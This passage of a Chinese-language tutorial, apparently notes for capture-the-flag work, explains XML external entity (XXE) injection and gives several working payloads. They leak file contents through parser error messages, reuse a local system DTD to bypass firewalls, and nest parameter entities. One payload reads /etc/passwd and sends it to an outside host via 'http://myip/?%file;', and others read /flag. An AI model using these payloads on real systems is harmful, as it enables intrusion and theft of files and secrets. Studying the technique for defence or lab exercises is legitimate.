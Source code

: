   xml.dtd的内容如下：

  ```dtd
  <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'file:///hhhhhhh/%file;'>">
  %start;
  ```

  start 实体中嵌套了一层DTD外部实体 send，注意被嵌套的实体要进行HTML实体编码

  访问`file:///hhhhhhh/%file;`报错，然后服务器会返回报错信息，但是该URL中包含%file，因此造成文件内容泄露。

- ##### 引入本地文件

  如果目标主机的防火墙十分严格，不允许我们请求外网服务器dtd呢？由于XML的广泛使用，其实在各个系统中已经存在了部分DTD文件。按照上面的理论，我们只要是**从外部引入DTD文件，并在其中定义一些实体内容**就行。

  `&#x26;`为`&`的HTML实体编码。

  `&#x27;`为`'`的HTML实体编码。

  ```xml-dtd
  <?xml version="1.0"?>
  <!DOCTYPE message [
  	<!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">      <!-- 引入本地dtd文件 -->
  	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
  	<!ENTITY % ISOamso '
  		<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://hhhhhhhh/?&#x25;file;&#x27;>">
  		&#x25;eval;
  		&#x25;send;
  	'> 
  	%remote;
  ]>
  <message>1234</message>
  ```

  ISOamso 实体中嵌套了一层DTD外部实体 eval，接着又嵌套了外部实体 send，注意被嵌套的实体要进行HTML实体编码，而 send 则被编码了两次。

  ISOamso的第一行内容为`<!ENTITY % eval "<!ENTITY % send SYSTEM 'file://hhhhhhhh/?%file;'>">`

- ##### 嵌套参数实体

  虽然W3C协议是不允许在内部的实体声明中引用参数实体，但是很多XML解析器并没有很好的执行这个检查。几乎所有XML解析器能够发现如下这种两层嵌套式的。

  ```xml-dtd
  <?xml version="1.0"?>
  <!DOCTYPE message [
  	<!ENTITY % file SYSTEM "file:///etc/passwd">  
      <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">     <!-- 在内部的实体声明中引用参数实体 -->
  	%start;
  	%send;
  ]>
  <message>10</message>
  ```

- **基于报错的三层嵌套参数实体XXE**

  ```xml-dtd
  <?xml version="1.0"?>
  <!DOCTYPE message [
  	<!ELEMENT message ANY>
  	<!ENTITY % para1 SYSTEM "file:///flag">
  	<!ENTITY % para '
  		<!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
  		&#x25;para2;
  	'>
  	%para;
  ]>
  <message>10</message>
  ```